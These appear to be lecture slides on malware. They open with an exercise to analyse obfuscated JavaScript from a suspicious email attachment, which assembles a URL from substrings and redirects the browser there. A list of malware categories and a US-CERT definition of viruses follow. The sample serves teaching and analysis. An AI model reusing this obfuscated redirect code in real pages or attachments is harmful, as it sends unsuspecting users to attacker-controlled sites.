 


# Malware

---

# Exercise 3.1 (:handshake:)

1. Analyze the following code (that was taken from a suspicious `.html`
   email attachment) and explain what it does when executed.

```text
<!-- C/C v0964 --><script>function c(){};t=false;kM="kM";
c.prototype = {v : function() {this.e=38741;this.eE="";s='';wS="wS";u="";
h=false;y="y";var w=String("htsjRD".substr(0,2)+"k8V3tp3kV8".substr(4,2)+
":/VxWG".substr(0,2)+"/e"+"nj"+"oydAgE".substr(0,2)+"yo6C3".substr(0,2)+
"urMoc".substr(0,2)+"Q8eDha8eDQ".substr(4,2)+"ir"+"cum1nF".substr(0,2)+
"UmI9t.UIm9".substr(4,2)+"co"+"m/"+"5.U2mW".substr(0,2)+"TaShtSaT".substr(3,2)
+"cwzmlcwz".substr(3,2));z=false;i=22164;d="";this.b="b";var r=false;zC=false;
m='';document["locazLsR".substr(0,4)+"tion"]=w;var eG=false;this.k='';q=5975;
g=55201;this.p="";var iK=61242;var n=false;}};var nF=false;this.eF=false;
var x=new c(); l="l";gO="";x.v();this.kN=false;</script>
```

:put_litter_in_its_place: <https://pastebin.com/t2XkJ1E9> _<small>(mild spoilers from syntax highlighting)</small>_

---

# Categories

* Virus
* Worm
* Trojan Horse
* Spyware
* Rootkit
* Ransomware
* Cryptojacker
* Botnet

---

# Virus

> A computer virus is a program that **spreads by first infecting
> files** or the system areas of a computer or network router's hard
> drive and then **making copies of itself**. Some viruses are harmless,
> others may damage data files, and some may destroy files. Viruses used
> to be spread when people shared floppy disks and other portable media,
> now viruses are **primarily spread through email** messages. \[[^1]\]

---

[^1]: https://www.us-cert.gov/publications/virus-basics
[^2]: https://www.us-cert.gov/sites/default/files/publications/spywarehome_0905.pdf
[^4]: https://www.us-cert.gov/sites/default/files/publications/Ransomware_Executive_One-Pager_and_Technical_Document-FINAL.pdf
[^5]: https://www.zdnet.com/article/why-cryptocurrency-mining-malware-is-the-new-ransomware/
[^3]: https://www.us-cert.gov/ncas/tips/ST06-001